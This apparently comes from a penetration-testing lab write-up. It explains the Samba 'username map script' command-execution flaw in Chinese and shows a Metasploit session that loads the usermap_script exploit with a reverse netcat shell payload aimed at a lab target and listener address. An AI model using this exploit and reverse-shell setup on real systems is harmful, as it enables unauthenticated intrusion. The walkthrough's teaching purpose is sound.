 ```
Papers: No Results
```

[Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

Samba“用户名映射脚本”命令执行

当使用非默认的“用户名映射脚本”配置选项时，此模块利用 Samba 版本 3.0.20 到 3.0.25rc3 中的命令执行漏洞。通过指定包含 shell 元字符的用户名，攻击者可以执行任意命令。利用此漏洞不需要身份验证，因为此选项用于在身份验证之前映射用户名！

```
msf6 auxiliary(scanner/smb/smb_version) > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 auxiliary(scanner/smb/smb_version) > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.0.27.245      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.21.2       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
